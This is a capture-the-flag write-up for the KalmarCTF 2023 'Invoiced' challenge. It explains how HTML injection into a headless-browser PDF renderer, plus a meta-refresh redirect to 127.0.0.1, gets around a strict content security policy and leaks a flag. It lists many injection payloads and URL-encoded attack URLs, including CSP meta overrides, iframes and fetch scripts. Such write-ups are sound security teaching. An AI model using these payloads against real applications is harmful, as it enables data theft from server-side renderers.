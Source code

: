 ```yaml
---
title: "KalmarCTF 2023 - Invoiced - Writeup"
date: "2023-03-05"
---
```


## Final working payload

Name: `a</title><meta http-equiv="Refresh" content="0; url='http://127.0.0.1:5000/orders'" />`
Others: empty 

## What we know

* Download source 
* Read files:
  * payments.js - get discount code FREEZTUFSSZ1412
  * app.js - get the implementation
    * GET /cart => show form to post to checkout 
    * POST /checkout => visit url, turn to pdf 
      * pdf impl: open puppeteer, visit /renderInvoice?name=..., wait for
        networkidle0, bake to pdf 
    * GET /renderInvoice => replace variables in template 
      * URL parameters are rendered without escaping => XSS 
    * GET /orders => return flag 

* Find unique safety features:
  * /renderInvoice has:
    * CSP  
      * default-src unsafe-inline maxcdn.bootstrapcdn
      * object-src none 
      * script-src none 
      * img-src self dummyimage.com 
  * /orders has:
    * checks remote address is 127.0.0.1
    * checks for no "Bot" cookie
    * sets X-Frame-Options to none (NO EFFECT)
    * returns flag
  * PDF bot always sets the bot cookie 
    * SameSite=Strict
    * HttpOnly


## Enumerate the possibilities

In no defined order, we tried to inject:

* script tag 
  * fails because script-src 
* meta http-equiv CSP 
  * first thought it was failing because it was rendered twice...
    used tricks like `name=...<!-- address=-->` to no avail
    wrong, it was failing because of the subtractive principle of csp
  * if CSP header and meta tag are both present, they are subtractive
* iframe `/orders`  
  * fails because frame-src 
  * got too stuck on credentialless iframe, spent way too much time
* iframe srcdoc then script 
  * fails because srcdoc inherits parent CSP 
* Reviewing bootstrap
  * Nothing interesting 
  .. and would still follow CSP 
* Considered scanning maxcdn 
  * didn't
* `<img src="/orders">`
  * works but wrong mime so broken image :) 
  * no interesting mime types that are actually plaintext, either
  * using `<picture><source src>` to set the mime type doesn't work 
    * because the flag is not an SVG
* loading it as a VTT subtitle 
  * using `<video><track>` doesn't work because CSP
    (media-src => default-src => no 'self')
* got desperate, thought we could load JS from bootstrap cdn
  * still can't, script-src hasn't changed, it's still none ...
* `<base>` tag?
  * no 
* trusted types?
  * what?
* then `@amahlaka97` flies in with 
  `a</title><meta http-equiv="Refresh" content="0; url='http://localhost:5000/orders'" />`
* have to bypass bot cookie 
  * maybe we run the meta inside a credentialless iframe?
    * no, because CSP frame-src
* `amahlaka97`: we somehow just need to get the bot cookie removed from the refresh request
  * yes
  * just change the origin
  * localhost is not 127.0.0.1
* HUH WAIT THAT COULD BE IT 
  * `a</title><meta http-equiv="Refresh" content="0; url='http://127.0.0.1:5000/orders'" />`
  * BOOM FLÄG 

kalmar{fr33_r34l_3st4t3_c91ad62}

## Learnings

* Be comprehensive
* Get an `@amahlaka97` in your team
* There are many many ways to load files
* CSP can't be relaxed, only restricted with more CSP tags
* Never forget meta refresh tag

## Ranting and rambling while solving it...


* lots of different things we tried to mess with CSP 

```
<iframe loading="eager" src="/orders" width="200" height="200" style="background:red" credentialless>NOT LOADED</iframe>
```

  - empty page (cc invoice.pdf, invoice2.pdf)

```
<iframe srcdoc="<!DOCTYPE html>"></iframe>
```

^ Works but can't run scripts  -- it inherits csp

Idea from Carlos (Hi @carlospolop)

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/iframes-in-xss-and-csp

```
<iframe src='data:text/html,<script>fetch("/orders")</script>'></iframe>
```

---

http://invoiced.chal-kalmarc.tf/renderInvoice?name=%3Ciframe%20src=%22data:text/html,HI%22%3E%3C/iframe%3E

csp default-src 'unsafe-inline' maxcdn.bootstrapcdn.com; object-src 'none'; script-src 'none'; img-src 'self' dummyimage.com

```
<iframe src="https://maxcdn.bootstrapcdn.com" sandbox="allow-scripts"></iframe>
```

---

We can write the csp tag since name is injected to head? 

```
/renderInvoice?name=</title><meta%20http-equiv="Content-Security-Policy"%20content="default-src%20*%20%27unsafe-inline%27,script-src%20%27unsafe-inline%27">&address=Fred<script>fetch("/orders").then(x=>x.text()).then((text)document.body.innerHTML+=text;</script>
```

```
http://localhost:5001/renderInvoice?name=fred%3C/title%3E%3Cmeta%20http-equiv=%22Content-Security-Policy%22%20content=%22frame-src%20*%22%3E&address=%3Ciframe%20src=%22http://localhost:5001/orders%22%20credentialless%3E%3C/iframe%3E
```

NAME: 

```
fred</title><meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline'; frame-src http://localhost:5001"></head><body><!--
```

ADDRESS: 

```
--><iframe src="http://localhost:5001/orders" credentialless></iframe>
```

---

```
fred</title><meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline'; script-src *; frame-src http://localhost:5001"></head><body><!--
```

----

HMM

Judging the CSP again ...

* img-src 'self'
* the only endpoint without explicit setHeader("Content-Type"...) is /orders 


---

Can't load it as CSS (default-src ! 'self')

```
http://invoiced.chal-kalmarc.tf/renderInvoice?name=fred%3C/title%3E%3Clink%20rel=%22stylesheet%22%20href=%22/orders%22%20type=%22text/css%22%3E&address=bork%3Ckalmar%3EHELLO%3C/kalmar%3E
```

---

Can't seem to load it as SVG

```
http://invoiced.chal-kalmarc.tf/renderInvoice?name=fred%3C/title%3E&address=%3Cpicture%3E%3Csource%20srcset=%22/orders%22%20type=%22image/svg%2bxml%22%20media=%22screen%22%3E%3Cimg%20src=%22https://dummyimage.com/70x70/000/fff%22%3E%3C/picture%3E&phone=hello%3Cstyle%3Ebody{background:url(/orders)}%3C/style%3E
```

--- 

Can't seem to use base href for anything useful

```
http://invoiced.chal-kalmarc.tf/renderInvoice?name=fred%3C/title%3E%3Cbase%20href=%22/orders%22%3E&address=%3Cpicture%3E%3Csource%20srcset=%22/orders%22%20type=%22image/svg%2bxml%22%20media=%22screen%22%3E%3Cimg%20src=%22https://dummyimage.com/70x70/000/fff%22%3E%3C/picture%3E&phone=hello%3Cstyle%3Ebody{background:url(/orders)}%3C/style%3E
```
